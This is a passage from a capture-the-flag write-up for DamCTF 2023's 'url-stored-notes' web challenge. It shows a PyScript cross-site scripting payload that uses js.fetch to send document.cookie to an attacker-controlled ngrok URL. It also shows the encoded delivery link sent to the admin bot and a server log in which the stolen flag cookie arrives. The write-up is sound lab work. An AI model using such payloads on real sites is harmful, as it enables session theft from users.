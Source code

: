 ![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/DamCTF-2023/images/Pasted%20image%2020230408171345.png)

Yes!!

**Let's get the admin's flag's cookie!!**

- Setup a web server:

```shell
┌[siunam♥earth]-(~/ctf/DamCTF-2023/web/url-stored-notes)-[2023.04.08|17:03:10(HKT)]
└> python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Since we're not connecting to the challenge's network, we need to do a port fowarding, so that the admin bot can reach our web server.

- Port forwarding:

```shell
┌[siunam♥earth]-(~/ctf/DamCTF-2023/web/url-stored-notes)-[2023.04.08|17:13:14(HKT)]
└> ngrok http 8000
[...]
Forwarding                    https://4726-{Redacted}.ngrok-free.app -> http://localhost:8000
```

**Payload:**
```py
    notes = '''[{\"prompt\":\"import js;print(js.fetch('https://4726-{Redacted}.ngrok-free.app/?c=' + document.cookie))\",\"answer\":\"print(2+2)\",\"tag\":\"py-script\"}]'''
```

```shell
┌[siunam♥earth]-(~/ctf/DamCTF-2023/web/url-stored-notes)-[2023.04.08|17:15:34(HKT)]
└> python3 encode_notes.py
Before encoded: [{"prompt":"import js;print(js.fetch('https://4726-{Redacted}.ngrok-free.app/?c=' + document.cookie))","answer":"print(2+2)","tag":"py-script"}]
After encoded: /Td6WFoAAATm1rRGAgAhARYAAAB0L+Wj4ACPAIRdAC2ewEcDz40ozKl1G8Hi7NGQkjZaYHM2dmMBzBphloFBYPBoOI/l8wzUcb0SUKwpyR7GQL0iy1XsO0cLi8KJ5xVbQxwhnGL90msB8xdPvTD/zN0NUkzbO3hUSuvxmAvpAONkOKQbWEAPyu76qHRlzwp2PEgtf6Zz4UIC7vqCs1PAIdFgAAB8pYqWMYhDzQABoAGQAQAAEGerW7HEZ/sCAAAAAARZWg==
After decoded: [{'prompt': "import js;print(js.fetch('https://4726-{Redacted}.ngrok-free.app/?c=' + document.cookie))", 'answer': 'print(2+2)', 'tag': 'py-script'}]
```

This payload will send a GET request to our ngrok port forwarding address, with parameter `c` and it's value is all cookies.

**Send the encoded note URL to admin bot:**
```
http://url-stored-notes.chals.damctf.xyz/#/Td6WFoAAATm1rRGAgAhARYAAAB0L+Wj4ACPAIRdAC2ewEcDz40ozKl1G8Hi7NGQkjZaYHM2dmMBzBphloFBYPBoOI/l8wzUcb0SUKwpyR7GQL0iy1XsO0cLi8KJ5xVbQxwhnGL90msB8xdPvTD/zN0NUkzbO3hUSuvxmAvpAONkOKQbWEAPyu76qHRlzwp2PEgtf6Zz4UIC7vqCs1PAIdFgAAB8pYqWMYhDzQABoAGQAQAAEGerW7HEZ/sCAAAAAARZWg==
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/DamCTF-2023/images/Pasted%20image%2020230408180134.png)

```shell
┌[siunam♥earth]-(~/ctf/DamCTF-2023/web/url-stored-notes)-[2023.04.08|17:03:10(HKT)]
└> python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
127.0.0.1 - - [08/Apr/2023 17:18:03] "GET /?c=flag=dam{waaatttt_t3xtc0nt3nt_n0t_always___s3cur3_bruuuhhhhhhh} HTTP/1.1" 200 -
```
